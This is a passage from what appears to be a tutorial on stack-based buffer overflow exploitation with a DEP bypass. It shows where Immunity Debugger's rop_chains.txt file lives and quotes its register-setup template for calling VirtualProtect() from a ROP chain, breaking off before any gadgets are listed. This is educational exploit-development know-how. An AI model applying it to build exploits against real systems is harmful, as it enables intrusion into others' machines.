 
For 32 bit system, the `rop_chains.txt` file is located in the following path:
`C:\Program Files\Immunity Inc\Immunity Debugger`

![Path.png](/images/2020-10-12-Stack-Based-Buffer-Overflows-DEP-Part-4/712e1238fd734accb2becc98d18e689c.png)



The x86 assembly code shows that the registers and stack are being set up to call the Windows API function, [VirtualProtect()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect). More information can be found on MSDN.


```asm
################################################################################

Register setup for VirtualProtect() :
--------------------------------------------
 EAX = NOP (0x90909090)
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = ReturnTo (ptr to jmp esp)
 ESI = ptr to VirtualProtect()
 EDI = ROP NOP (RETN)
 --- alternative chain ---
 EAX = ptr to &VirtualProtect()
 ECX = lpOldProtect (ptr to W address)
 EDX = NewProtect (0x40)
 EBX = dwSize
 ESP = lPAddress (automatic)
 EBP = POP (skip 4 bytes)
 ESI = ptr to JMP [EAX]
 EDI = ROP NOP (RETN)
 + place ptr to "jmp esp" on stack, below PUSHAD
--------------------------------------------


ROP Chain for VirtualProtect() [(XP/2003 Server and up)] :
----------------------------------------------------------
```
